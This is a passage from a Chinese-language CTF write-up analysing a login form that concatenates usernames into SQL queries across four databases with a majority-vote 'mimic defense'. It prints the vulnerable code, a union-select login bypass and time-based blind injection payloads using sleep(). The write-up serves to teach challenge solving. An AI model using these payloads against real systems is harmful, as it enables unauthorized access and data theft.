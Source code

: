 
我们很容易看到，在user类中，对查询语句直接做了拼接
```
query = '''select * from users where username=%s%s%s;''' % (quote, username, quote)
```
很明显的注入，但问题在于，这里LCBC加入了所谓的拟态防御，代码如下：

```

def find_user(self, username, driver):

        TERMINAL_TOKENS = {
            'psql': ["'", '$$'],
            'mssql': ["'"],
            'mysql': ["'", '"'],
            'sqlite': ["'", '"']
        }

        quote = choice(TERMINAL_TOKENS.get(driver, ["'", '"']))
        query = '''select * from users where username=%s%s%s;''' % (quote, username, quote)
```
后端使用了4种数据库，然后不同的数据库会对应不同的闭合符号，在每次查询时都会向4个数据库同时查询，然后对比返回结果，只有3种以上相同的结果才会被返回。

```
result = [self.find_user(username, driver) for driver in self.DB_CONNECTIONS]
common = Counter(result).most_common()[0]
user = () if common[1] < len(result) - 1 else common[0]
if not user:
    raise UserNotFoundError()
self._id = user[0][0]
self.username = user[0][3]
self.id = self.username 
self.password = user[0][4]
```

或许我们很难找到这种防御方式的弱点，但是我们或许需要换个思路来思考这个问题。

我们有两个办法解决这个问题
1、找到至少3种数据库都支持的查询方式
2、只攻击其中1种数据库

这里我们很难找到支持第一种办法的注入方式，因为在不同的数据库中，储存表名列名字段的都是不同位置，我们最多只能使用最普通的`union select`语法来登陆。

```
username=root' union select 0,'root','e10adc3949ba59abbe56e057f20f883e'--&password=123456
```

用这个语句可以直接登陆，很显然，后台什么都没有。

那么我们果断是由第二种方式，既然我们的每次查询都会进数据库，那么我们直接时间盲注就好了，有个问题在于，比如mysql，我们需要处理单双引号闭合方式不同的问题，当闭合方式不同时，我们就没办法获得数据了。

有两个办法，1是通过精妙的构造来闭合两种引号，也不是很难，就是看着挺难受的，例如
```
username=1' or '"!="'!='' and sleep(2) and ''!='" or sleep(2)!="&password=123456
```

2就是通过if的正确和错误生成不同的延时来判断
```
1' or if(({}), sleep(3), sleep(1))#
```
通过只有有效语句才会sleep


  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rf98mvtfeiiyu05ltb5oxx0m/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6vlfhi58vrcegnsd6ciuecje/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fb0kn88pavd4ducdv5gxf9l1/image.png